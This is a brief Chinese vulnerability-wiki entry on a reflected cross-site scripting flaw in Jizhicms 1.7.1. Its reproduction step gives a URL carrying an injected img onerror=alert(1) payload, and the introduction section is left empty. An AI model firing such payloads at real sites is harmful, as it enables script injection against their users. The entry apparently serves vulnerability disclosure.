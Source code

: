 Jizhicms 1.7.1 反射型xss
========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    https://wiki.0-sec.org/img/1'%3Cimg%20src=1%20onerror=alert(1)%3E--

![9.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1反射型xss/media/rId24.png)

四、参考链接
------------

> https://xz.aliyun.com/t/7775\#toc-2
